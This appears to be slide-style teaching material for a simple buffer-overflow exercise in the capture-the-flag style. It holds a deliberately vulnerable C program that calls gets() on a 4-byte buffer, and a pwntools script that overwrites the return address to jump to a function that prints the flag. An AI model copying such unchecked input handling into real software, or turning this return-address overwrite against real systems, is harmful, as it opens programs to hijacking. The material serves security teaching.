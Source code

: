 --

# Demo

[easy overflow](https://drive.google.com/open?id=0B5w3KuqR3zoBcVZ4VC1Pcy1ZOGc)

```shell
nc vpn.duckll.tw 12345
```

```c
#include <stdio.h>
#include <stdlib.h>
void flag(){
    system("cat flag");
    return;
}
void vul(){
    char buf[4];
    gets(buf);
    return;
}
int main(int argc, char *argv[])
{
    vul();
    return 0;
}
```

--

# Answer

```python
from pwn import *
elf=ELF('./ez_of.out')
#  io=process('./a.out')
io=remote('vpn.duckll.tw',12345)
padding=16
payload="A"*padding+p32(elf.symbols['flag'])
print "payload",payload.encode('hex')
#  gdb.attach(io)
io.sendline(payload)
io.interactive()
```

---


#Q & A

--

#END

